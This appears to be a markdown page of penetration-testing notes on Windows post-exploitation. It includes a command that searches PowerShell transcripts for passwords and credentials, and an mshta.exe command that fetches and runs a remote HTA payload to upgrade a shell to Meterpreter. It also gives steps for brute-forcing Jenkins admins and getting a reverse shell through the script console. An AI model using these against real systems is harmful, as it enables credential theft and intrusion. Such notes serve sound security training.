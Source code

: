  ## Powershell history
** Default Location**
```powershell
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
#For example
C:\Users\zeyad\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
## Powershell Trascript
-This service logges the PowerShell session from commands and output  of the commands.
- Defualt logfile place is C:\Users\%USER%\Documents
```powershell
#Example 
cat C:\Users\zeyad\DocumentsFILE.txt | select-string "pass","cred"
```
## Upgrading from a regular shell to Meterpreter
#### Module :
**1- exploit/windows/misc/hta_server**
-   This module hosts an HTML Application (HTA) that when opened will run a payload via Powershell..
-   On attacker machine

```powershell
mshta.exe http://<URL>.hta
```
---
## Feature Abuse - Enterprise applications
-**Jenkins** : Runs as a local admin so getting a shell from it will let us own the machine we are on.
-- Visit the url then  find the admin user then brute force the password
-- After you get in ,navigate to /script and get a groovy payload to execute commands or get a reverse shell.
-- Suggested to try the username as the password or the reverse of the username as a password.
-- if you didn't manage to have access as an admin but you had access as a user you can abuse a project that you can "CONFIGURE" to get OS command execution.
-- Easy way to look for a Configurable project if there are many projects is to navigate to a project then adding ""/configure" and then bruteforce projects using burpsuite or whatever.
## Useful links
- [**More Resources for PrivESC**](https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources)